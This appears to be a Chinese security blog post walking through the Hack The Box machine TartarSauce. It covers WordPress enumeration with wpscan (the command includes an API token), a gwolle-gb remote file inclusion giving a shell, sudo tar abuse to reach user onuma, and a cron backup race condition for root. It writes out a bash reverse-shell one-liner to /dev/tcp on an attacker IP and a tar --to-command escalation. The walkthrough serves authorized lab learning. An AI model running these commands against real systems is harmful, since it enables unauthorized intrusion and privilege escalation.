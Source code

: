 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/K4TDWBpRGyV9h434FplL0g)

一个每日分享渗透小技巧的公众号![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPTQKiaXksbZia7PmHLPX2vnCWsznInTj3b9TFYtTDIYG6lDGJZYYSv72NsVWF24Kjlo4MT29tEOQSg/640?wx_fmt=png)

  

  

大家好，这里是 **大余安全** 的第 **130** 篇文章，本公众号会每日分享攻防渗透技术给大家。

  

靶机地址：https://www.hackthebox.eu/home/machines/profile/138

靶机难度：中级（4.7/10）

靶机发布日期：2018 年 10 月 28 日

靶机描述：

TartarSauce is a fairly challenging box that highlights the importance of a broad remote enumeration instead of focusing on obvious but potentially less fruitful attack vectors. It features a quite realistic privilege escalation requiring abuses of the tar command. Attention to detail when reviewing tool output is beneficial when attempting this machine.

请注意：对于所有这些计算机，我是通过平台授权允许情况进行渗透的。我将使用 Kali Linux 作为解决该 HTB 的攻击者机器。这里使用的技术仅用于学习教育目的，如果列出的技术用于其他任何目标，我概不负责。

  

![](https://mmbiz.qpic.cn/mmbiz_png/3CSGsOUQKfsq2MZPDdCbRx4QOq5Hu6gwrOCquO8aT36jQ9E11LOX3TlAkU4FMhGlA2GtyiaXia4DpyEf9A6cZHXg/640?wx_fmt=png)

一、信息收集

![](https://mmbiz.qpic.cn/mmbiz_png/CFzCpw2dZa6XK6W3JRCld4jmp0GibCWLXUqvXCSUQzVI4ROVn3Quu5KWKhPcaUMe5MicicTrXO0YGPLY2OyXoiaeEA/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KM0IWnIribrQHbGRfnkhMRq41TbXHZaqcFaOAUsvzoX650qK7pKhAa5sMicCayx32BatCaV3vWsEX7A/640?wx_fmt=png)

可以看到靶机的 IP 是 10.10.10.88....

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KM0IWnIribrQHbGRfnkhMRq4pAVSmAeoMAMAWWM3u63BR1bFCJrguwDmX9kykhWibwZLsk9feSXr3gw/640?wx_fmt=png)

nmap 扫描发现 80 端口上 Apache 存在几个子目录...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KM0IWnIribrQHbGRfnkhMRq4HjJXc9uLGVpIojhCpbUbIv4Jk0mp52XbGfaF1S8Wm4OicsfaValwdHQ/640?wx_fmt=png)

访问 apache 一瓶汽水...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KM0IWnIribrQHbGRfnkhMRq4UIV0mK1BBz6KVpAGNQgjq4YvQ2TqeM3iaWWgKGE9DCmLWkIt7Mox3Jw/640?wx_fmt=png)

经过直接对 nmap 发现的目录进行各种枚举... 发现了 / wp 子目录...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KM0IWnIribrQHbGRfnkhMRq4pLnxfsSZr6WA5O46xRj3oKdE1ls3SMaU5bAy6Yo6AbkHZYHHAcqbfg/640?wx_fmt=png)

访问后发现这是 wordpress 框架页面...404 报错.. 遭到了破坏? 上篇文章也遇到了，直接添加域名到 hosts 即可正常显示...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KM0IWnIribrQHbGRfnkhMRq4H5bCBfowFWYyz930dtOl1icr2z8n15W3IxBCJiaJ1fjwbiaMqEzIeD8jQ/640?wx_fmt=png)

```
wpscan --url http://10.10.10.88/webservices/wp --enumerate p --api-token kJ4bhZCgveCcoGJPER7AOsHJTeFDf90Wfj9zu0V6asc
```

wordpress 直接利用 wpscan 进行渗透... 可以看到开始是没有 API... 前往 wpscan 官网免费注册一天可以扫 50 次，获得 API 直接利用在继续....

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KM0IWnIribrQHbGRfnkhMRq4My9mfjMgv1LT8mFwdic2OF5eQhXC0gxaAW0Xiccl5ZJ1zaI74dnIPOWQ/640?wx_fmt=png)

发现 gwolle-gb 中存在远程文件包含漏洞...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KM0IWnIribrQHbGRfnkhMRq4hXnaZUtH76t3o1ZqCZNULESXHrJs4wZhLJtG86vypVUXgEeKvtvia9Q/640?wx_fmt=png)

查看 EXP... 下载下来...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KM0IWnIribrQHbGRfnkhMRq4wibyppY3GpPnyh5qqthXz6wAlyG1zEkib8ez8iatIgeVXk0xDrRZLa8wg/640?wx_fmt=png)

阅读后利用 EXP 方法即可文件上传提权...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KM0IWnIribrQHbGRfnkhMRq4FhBVeGQgBZ96vGXTonquAMfp6MpQH4hgnVJZqI9OuOPq9WN41fVhLA/640?wx_fmt=png)

简单 shell 通过 EXP 上传访问，即可获得反向外壳.... 成功获得了 www 低权用户...

这里利用了 gwolle 漏洞提权...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KM0IWnIribrQHbGRfnkhMRq42rbtSrqoYaDddhyTZ9tgVqhexFX4JhPU7SH3hRUiaCMO5TdOkuwR0HQ/640?wx_fmt=png)

```
echo -e '#!/bin/bash\n\nbash -i >& /dev/tcp/10.10.14.51/7777 0>&1' > dayu.sh
tar -cvf dayu.tar dayu.sh
```

权限很低，无法进入用户目录...

枚举发现 sudo -l 中以 tar 用户身份运行 onuma 可以提升到用户权限...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KM0IWnIribrQHbGRfnkhMRq4puNhIOHFwKNItFB2avOlZFgylAaVkR4eAcTOohebJCrqI7kUfhTPew/640?wx_fmt=png)

```
sudo -u onuma tar -xvf dayu.tar --to-command /bin/bash
```

成功提升权限，获得了 user_flag 信息....

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KM0IWnIribrQHbGRfnkhMRq4ZT8nicAQPLGUfoTg8rp647I0SIPE5N1zKMic1s3hmGaMfictPtoPlorzw/640?wx_fmt=png)

这里通过 LinEnum 枚举目前未发现可利用地方...

上传 pspy 监控进程看看...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KM0IWnIribrQHbGRfnkhMRq48RXVtta7LJGBICeoxOiaT5SsSsm4Jx6AXy0p8vSdpFwyYR6cfLZfDHg/640?wx_fmt=png)

发现每五分钟 / usr/sbin/backuperer 会自动以 root 权限执行...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KM0IWnIribrQHbGRfnkhMRq4FpMJCiaueiaeebYW9DHndYMVFZFiciaPepkNvpMrtmGvbwoouRQzHHD7pA/640?wx_fmt=png)

查看 backuperer 内容得出：

1、会从 / var/tmp 和 / var/tmp/check 文件夹中删除带点文件？

2、会将 / var/www/html 用户 onuma 的内容压缩 / 存档到文件 / var/tmp 中，文件的名称以点名开头？

3、带点文件存在 30 秒。

4、会创建 / var/tmp/check 目录。

5、将先前解压的内容作为根提取到 / var/tmp/check 目录中。

6、diff 对 / var/www/htmlvs 进行对抗 / var/tmp/check/var/www/html

目录中的文件会以 root 权限执行...

那这样可以抓住 30 秒时间，每到五分钟归零新一轮开始时开始计算 30 秒时间，当归零时会生成一个带点文件，30 秒后会自动删除，期间如果是 tar，会自动解压到 check 目录下...

只需要利用 30 秒时间插入个简单 shell 复制到带点文件，带点文件 30 秒后会自动解压 shell 到 check 目录下，就可以以 root 权限执行了，获得反弹外壳... 开始

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KM0IWnIribrQHbGRfnkhMRq49HsaT3sjPVwsxppBQ38UElsEgmZanywibzM1WFmqSvmsJBDxj8Kb5lA/640?wx_fmt=png)

首先在本地按照 backuperer 脚本提示，还原方法创建了 shell.tar 文本...

将其上传到靶机 / var/tmp 目录下...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KM0IWnIribrQHbGRfnkhMRq45WsUV0P2tiaFTticq7rINaIgO1J5n0xfCgnbYA0qPZuvKMiaEE98Tiazcg/640?wx_fmt=png)

利用 systemctl list-timers 查看 backuperer 进程的运行时间...

等待 LEFT 倒计时归零时，ls -la 在 tmp 目录下查看到带点的文件，cp 刚上传的 shell.tar 到带点文件即可...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KM0IWnIribrQHbGRfnkhMRq4GKtpPjY4xtmV2qIySIJK7GRKX5v69VjRksTU4TBJL8Br3rR1EnIfOA/640?wx_fmt=png)

过 10 秒左右，脚本会自动解压到 check 目录，如果未生成 check 说明失败... 检查前面操作...

在 check 下，查看到了 shell 具有 root 执行权限...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KM0IWnIribrQHbGRfnkhMRq4gKpJrCZicou52CVZdNibTCqW6qqKg7eDaE2sPk7gOzwH1ACpOqpSic9QQ/640?wx_fmt=png)

  

执行后获得了 root 权限，查看到了 root_flag 信息...

这台就不总结了，思路很好... 加油

由于我们已经成功得到 root 权限查看 user 和 root.txt，因此完成这台中级的靶机，希望你们喜欢这台机器，请继续关注大余后期会有更多具有挑战性的机器，一起练习学习。

如果你有其他的方法，欢迎留言。要是有写错了的地方，请你一定要告诉我。要是你觉得这篇博客写的还不错，欢迎分享给身边的人。

  

如果觉得这篇文章对你有帮助，可以转发到朋友圈，谢谢小伙伴~

![](https://mmbiz.qpic.cn/mmbiz_png/c5xrRn4430AnqkfAJc38Vpnc5XiaADLTjiciciaibYU4EHw3Nuh7YMtuB0hz3sb8Em9iatt5skAsibuuysPLdLY5LtWOw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/p3lIbvldZiabdI5iaCb3icRhtygUuo2sp6Hcdq0ANlpy5W3gL628uq032jsoVnGnl6HdGrgDXjfazFtkp6IInibDdQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPqjaFWwyrrhiciahSpOibxqKvSIFX0iaPcG00CjYIwQDwIDeIicmFMlOVNyhWYVSE8pJK566UK3YOUNWQ/640?wx_fmt=png)

随缘收徒中~~ **随缘收徒中~~** **随缘收徒中~~**

欢迎加入渗透学习交流群，想入群的小伙伴们加我微信，共同进步共同成长！

![](https://mmbiz.qpic.cn/mmbiz_png/ndicuTO22p6ibN1yF91ZicoggaJJZX3vQ77Vhx81O5GRyfuQoBRjpaUyLOErsSo8PwNYlT1XzZ6fbwQuXBRKf4j3Q/640?wx_fmt=png)  

大余安全

一个全栈渗透小技巧的公众号

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPTQKiaXksbZia7PmHLPX2vnCSsnsc7MHh257oYRic1MOT8qibABNUEnTq9DUL7QBwnS52EheJf4m8iaTQ/640?wx_fmt=png)